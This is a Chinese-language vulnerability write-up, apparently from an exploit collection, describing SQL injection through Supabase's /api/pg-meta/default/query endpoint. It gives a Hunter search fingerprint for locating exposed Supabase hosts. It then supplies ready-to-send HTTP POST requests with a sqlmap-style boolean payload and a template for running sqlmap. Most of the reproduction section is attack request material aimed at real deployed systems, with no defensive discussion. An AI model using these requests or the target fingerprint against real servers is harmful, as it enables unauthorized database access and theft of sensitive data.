 # Supabase query存在SQL注入漏洞

# 一、漏洞简介
Supabase是一个开源的Firebase替代品，提供了一系列的后端功能，让你可以更快地构建产品。它使用PostgreSQL作为数据库，支持SQL和RESTful API访问。此外，Supabase提供了完整的认证系统，支持邮箱、手机号、第三方服务等多种登录方式。Supabase 存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息甚至可获得服务器权限。

# 二、影响版本
+ Supabase

# 三、资产测绘
+ hunter`app.name="Supabase"`
+ 特征

![1701170235545-bdaa2d9d-5918-4200-b9e7-7b89025dcb08.png](./img/xJRj9JN6yjABftPr/1701170235545-bdaa2d9d-5918-4200-b9e7-7b89025dcb08-568605.png)

# 四、漏洞复现
```plain
POST /api/pg-meta/default/query HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 103

{"query":"(SELECT CONCAT(CONCAT('qjpzq',(CASE WHEN (2016=2016) THEN '1' ELSE '0' END)),'qkbbq'))"}
```

![1701170299913-9a46ea32-48ba-4adb-83f8-1e8e52b81aab.png](./img/xJRj9JN6yjABftPr/1701170299913-9a46ea32-48ba-4adb-83f8-1e8e52b81aab-284336.png)

sqlmap

```plain
POST /api/pg-meta/default/query HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 103

{"query":""}
```

![1701170323505-a6156120-f091-409e-aeb7-4d96a390a4e4.png](./img/xJRj9JN6yjABftPr/1701170323505-a6156120-f091-409e-aeb7-4d96a390a4e4-551880.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gsa0ghyt670h5o3q>